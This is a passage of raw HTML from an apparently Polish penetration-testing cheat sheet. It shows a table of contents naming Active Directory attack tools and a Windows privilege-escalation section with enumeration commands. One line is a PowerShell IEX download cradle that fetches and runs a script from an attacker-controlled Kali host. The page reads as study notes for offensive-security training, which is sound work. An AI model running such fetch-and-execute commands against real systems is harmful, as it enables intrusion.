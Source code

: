 Potato</a></li><li class="ez-toc-page-1 ez-toc-heading-level-5"><a class="ez-toc-link ez-toc-heading-73" href="#BloodHound" title="BloodHound">BloodHound</a></li><li class="ez-toc-page-1 ez-toc-heading-level-5"><a class="ez-toc-link ez-toc-heading-74" href="#Rubeus" title="Rubeus">Rubeus</a></li><li class="ez-toc-page-1 ez-toc-heading-level-5"><a class="ez-toc-link ez-toc-heading-75" href="#Impacket_z_Kali" title="Impacket (z Kali)">Impacket (z Kali)</a></li><li class="ez-toc-page-1 ez-toc-heading-level-5"><a class="ez-toc-link ez-toc-heading-76" href="#Meterpreter_dla_AD" title="Meterpreter dla AD">Meterpreter dla AD</a></li></ul></li><li class="ez-toc-page-1 ez-toc-heading-level-4"><a class="ez-toc-link ez-toc-heading-77" href="#Macro" title="Macro">Macro</a></li><li class="ez-toc-page-1 ez-toc-heading-level-4"><a class="ez-toc-link ez-toc-heading-78" href="#Windows_Library_Attacks" title="Windows Library Attacks">Windows Library Attacks</a></li><li class="ez-toc-page-1 ez-toc-heading-level-4"><a class="ez-toc-link ez-toc-heading-79" href="#PetitPotam_%E2%80%93_NTLM_Relay" title="PetitPotam – NTLM Relay">PetitPotam – NTLM Relay</a></li></ul></li></ul></li></ul></nav></div>

<h2 class="wp-block-heading"><span class="ez-toc-section" id="Windows_Priv_Esc" ez-toc-data-id="#Windows_Priv_Esc"></span>Windows Priv Esc<span class="ez-toc-section-end"></span></h2>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Podstawy" ez-toc-data-id="#Podstawy"></span>Podstawy<span class="ez-toc-section-end"></span></h4>



<p>#whoami ; whoami /priv ; whoami /all ; whoami /groups<br>#hostname<br>#systeminfo   (sprawdź System type czy x64)<br>#echo %userdomain% ; echo %username% ; whoami – ale tylko w cmd<br>#?? polecenia w cmd: move ; shutdown /r /t 0 ; type<br>#dokładniejszy „ls” w PS: <mark style="background-color:#c7ffba" class="has-inline-color">Get-ChildItem -Force</mark><br>#Hacktricks – Checklist Windows Priv Esc <a href="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation">link</a> i <a href="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation">full polecenia</a><br><strong>###bypass poleceń###</strong><br>#cmd.exe /c &lt;commands&gt;<br>#cmd.exe /c start &lt;commands&gt;<br><strong>###IEX###</strong><br>#IEX(New-Object Net.webclient).downloadString(’http://$KALI:9090/skrypt.ps1′)<br><strong>#tworzenie plikow przez PowerShell###</strong><br>#New-Item .\test.txt<br>#&gt; Set-Content .\test.txt 'jakis text’<br># Compress-Archive -LiteralPath C:\PATH\TO\FOLDER -DestinationPath C:\PATH\TO\FILE.zip</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Enumeracja" ez-toc-data-id="#Enumeracja"></span>Enumeracja<span class="ez-toc-section-end"></span></h4>


